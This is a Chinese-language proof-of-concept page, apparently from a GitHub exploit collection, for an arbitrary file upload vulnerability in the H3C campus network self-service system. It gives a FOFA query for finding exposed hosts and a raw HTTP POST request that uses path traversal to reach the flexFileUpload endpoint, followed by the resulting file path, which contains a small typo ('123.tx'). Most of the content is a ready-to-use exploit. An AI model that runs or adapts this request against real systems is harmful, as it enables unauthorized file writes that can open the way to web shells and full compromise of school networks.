 ## H3C-校园网自助服务系统flexfileupload任意文件上传漏洞

## FOFA
```
header="/selfservice"
```
![67ea2585dc0afbeca07f36ba1a2d759b](https://github.com/wy876/POC/assets/139549762/458a6319-8307-47a8-a3e9-8aed98b5fd9e)

## poc
```
POST /imc/primepush/%2e%2e/flexFileUpload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=---------------WebKitFormBoundaryMmx988TUuintqO4Q
Accept-Encoding: gzip
Content-Length: 243

-----------------WebKitFormBoundaryMmx988TUuintqO4Q
Content-Disposition: form-data; name="123.txt"; filename="123.txt"
Content-Type: application/octet-stream
Content-Length: 255

1111
-----------------WebKitFormBoundaryMmx988TUuintqO4Q--
```

文件路径：`/imc/primepush/%2e%2e/flex/topobg/123.tx`
